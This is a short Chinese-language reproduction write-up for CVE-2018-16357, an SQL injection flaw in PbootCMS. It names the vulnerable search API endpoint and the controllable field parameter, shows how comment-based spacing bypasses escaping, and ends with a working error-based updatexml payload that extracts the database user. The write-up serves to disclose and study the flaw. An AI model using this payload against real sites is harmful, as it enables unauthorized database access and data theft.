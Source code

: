 （CVE-2018-16357）PbootCMS sql注入漏洞
======================================

一、漏洞简介
------------

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。
PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

三、复现过程
------------

    http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1

参数\$field是我们可以控制的，去检查函数过滤器

![](./resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId24.png)

使用函数trim和escape字符串避免sql注入

![](./resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId25.png)

添加a\'会导致mysql语法错误，因此函数escape\\u字符串无效

![](./resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId26.png)

使用/\*\*/绕过

### payload:

    field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1
